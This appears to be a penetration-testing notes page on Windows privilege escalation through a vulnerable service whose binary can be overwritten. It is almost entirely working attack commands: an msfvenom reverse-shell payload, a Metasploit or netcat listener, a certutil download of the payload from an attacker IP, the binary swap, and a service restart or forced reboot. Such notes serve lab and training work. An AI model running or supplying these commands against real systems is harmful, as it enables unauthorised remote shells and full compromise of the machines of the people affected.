





### **Exploiting a vulnerable service with Metasploit**

1.  Use `msfvenom` to create a reverse shell payload:  
    `msfvenom -p windows/x64/shell_reverse_tcp LHOST=[IP-ADDRESS] LPORT=[PORT] -f exe-service -o reverse.exe`  
    
    

    ??? info "Note"

        If the vulnerable service is running from **Program Files (x86)**, create a 32-bit executable.  
        A 64-bit payload may not run properly in that case.
    
2.  Start a listener on the attacking machine:  
    `msfconsole -q -x "use multi/handler; set payload windows/x64/meterpreter/reverse_tcp; set LHOST tun0; set LPORT [PORT]; run"`  
    
    

    ??? info "Note"

        Alternatively, start a simple netcat listener:  
        `sudo rlwrap -cAr nc -lvnp 1338`
    
3.  Transfer `reverse.exe` to the target machine:  
    `certutil -urlcache -f http://10.11.92.52:8000/reverse.exe reverse.exe`  
    
    
    
4.  Replace the vulnerable service binary (`filepermservice.exe`) with your payload, keeping the original binary name:  

    ```powershell
    Copy-Item -Path "C:\Temp\reverse.exe" -Destination "C:\Program Files\File Permissions Service\filepermservice.exe" -Force
    ```

    

    ??? info "Note"

        In `cmd`, you can use:  
        `copy /y c:\Temp\reverse.exe "c:\Program Files\File Permissions Service\filepermservice.exe"`

5.  Restart the service to trigger execution:  
    ```
    sc stop filepermsvc
    sc start filepermsvc
    ```
    or  
    `net start filepermsvc`
    
    
    
    ??? info "Important"

        If `SeShutdownPrivilege` is enabled, you can also reboot the machine to restart the service automatically:  
        `shutdown /r /t 0 /f`